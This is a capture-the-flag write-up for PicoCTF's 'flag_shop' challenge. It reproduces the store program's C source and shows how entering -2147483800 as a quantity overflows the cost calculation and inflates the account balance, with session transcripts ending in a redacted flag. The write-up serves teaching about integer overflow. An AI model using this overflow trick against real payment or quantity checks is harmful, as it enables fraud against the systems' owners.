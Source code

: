 # PicoCTF - flag_shop

## Challenge Overview
**Title:** flag_shop  
**Category:** General Skills  
**Difficulty:** Medium  
**Files Provided:** store.c  

## Description
There's a flag shop selling stuff, can you buy a flag? Source. Connect with nc jupiter.challenges.picoctf.org 9745.

## Source Code
```c
#include <stdio.h>
#include <stdlib.h>
int main()
{
    setbuf(stdout, NULL);
    int con;
    con = 0;
    int account_balance = 1100;
    while(con == 0){
        
        printf("Welcome to the flag exchange\n");
        printf("We sell flags\n");

        printf("\n1. Check Account Balance\n");
        printf("\n2. Buy Flags\n");
        printf("\n3. Exit\n");
        int menu;
        printf("\n Enter a menu selection\n");
        fflush(stdin);
        scanf("%d", &menu);
        if(menu == 1){
            printf("\n\n\n Balance: %d \n\n\n", account_balance);
        }
        else if(menu == 2){
            printf("Currently for sale\n");
            printf("1. Defintely not the flag Flag\n");
            printf("2. 1337 Flag\n");
            int auction_choice;
            fflush(stdin);
            scanf("%d", &auction_choice);
            if(auction_choice == 1){
                printf("These knockoff Flags cost 900 each, enter desired quantity\n");
                
                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 900*number_flags;
                    printf("\nThe final cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour current balance after transaction: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds to complete purchase\n");
                    }
                                    
                    
                }
                    
                    
                    
                
            }
            else if(auction_choice == 2){
                printf("1337 flags cost 100000 dollars, and we only have 1 in stock\n");
                printf("Enter 1 to buy one");
                int bid = 0;
                fflush(stdin);
                scanf("%d", &bid);
                
                if(bid == 1){
                    
                    if(account_balance > 100000){
                        FILE *f = fopen("flag.txt", "r");
                        if(f == NULL){

                            printf("flag not found: please run this on the server\n");
                            exit(0);
                        }
                        char buf[64];
                        fgets(buf, 63, f);
                        printf("YOUR FLAG IS: %s\n", buf);
                        }
                    
                    else{
                        printf("\nNot enough funds for transaction\n\n\n");
                    }}

            }
        }
        else{
            con = 1;
        }

    }
    return 0;
}
```
## Analysis
The program shows us a menu wih some actions
```
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit
```
The **Buy Flags** option has a submenu:
```
 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
```
From he source code, we know that option number 2 is the one we want but we don't have enough funds.  
Looking at option 1, we see an input of the number of flags to buy
```c
int number_flags = 0;
fflush(stdin);
scanf("%d", &number_flags);
if(number_flags > 0){
    int total_cost = 0;
    total_cost = 900*number_flags;
    printf("\nThe final cost is: %d\n", total_cost);
    if(total_cost <= account_balance){
        account_balance = account_balance - total_cost;
```
One idea is to **enter** a **negative number** for the number of flags in order to **increase** our **balance**, but negative check prevents us from doing so.  
What we can do is **enter** a **number smaller** than **INT_MIN** so it **overflows** causing an overflow

I will enter **-2147483800**
```
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
-2147483800

The final cost is: -136800

Your current balance after transaction: 137900
```
By entering a **smaller** number than **INT_MIN** we caused an **overflow**, **passed** the `if` statement and **increased** our **balance** due to the **undefined** behaviour caused by overflows.

Now we can bu the actual flag
## Solution
### Execution Example
```
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
-2147483800

The final cost is: -136800

Your current balance after transaction: 137900

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{____REDACTED____}
```